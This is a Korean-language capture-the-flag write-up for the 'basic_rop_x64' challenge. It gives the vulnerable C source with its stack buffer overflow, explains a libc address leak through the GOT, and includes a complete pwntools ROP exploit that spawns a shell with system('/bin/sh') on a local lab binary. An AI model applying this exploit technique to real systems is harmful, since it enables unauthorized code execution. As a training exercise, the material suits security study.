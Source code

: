 basic_rop_x64 라이트업
=================

## 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.

### 버퍼 오버플로우

* buf 변수의 크기는 0x40이지만 read 함수에서 buf 변수에 0x400 크기의 입력을 받고 있어 버퍼 오버플로우가 발생한다.
* buf가 할당된 64바이트 뒤에는 8바이트의 sfp와 8바이트의 ret이 위치한다.
* 'A'를 72바이트만큼 입력해서 buf, sfp를 더미 값으로 덮고 ret을 원하는 값으로 설정해서 바이너리의 실행 흐름을 조작할 수 있다.


## 익스플로잇 분석


### system 함수 주소 계산

* ASLR이 걸려있기 때문에 system 함수의 주소는 계속 변하게 되지만 Base 주소 + system 함수의 오프셋을 통해 system 함수의 주소를 구할 수 있다.
* read 함수의 주소 - read 함수의 오프셋을 하면 Base 주소를 구할 수 있다.
* read 함수가 실행된 이후 read 함수의 주소는 GOT에 등록되어 있기 때문에 read 함수의 GOT 값을 읽으면 read 함수의 주소를 구할 수 있다.

------------

### "bin/sh" 문자열

* system("bin/sh") 를 실행하기 위해서는 "bin/sh" 문자열이 필요하다.
* system 함수와 동리하게 Base 주소 + "bin/sh" 문자열 오프셋으로 주소를 구해야 한다.



## 익스플로잇 코드


```python
from pwn import *

def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

p = process("./basic_rop_x64")
e = ELF("./basic_rop_x64")
libc = ELF("./libc6_2.27-3ubuntu1.4_amd64", checksec=False)
r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload:bytes = b'A' * 0x48

payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)

payload += p64(main)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6)+b'\x00'*2)
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb

slog("read", read)
slog("libc base", lb)
slog("system", system)
slog("/bin/sh", binsh)

payload: bytes = b'A' * 0x48

payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```
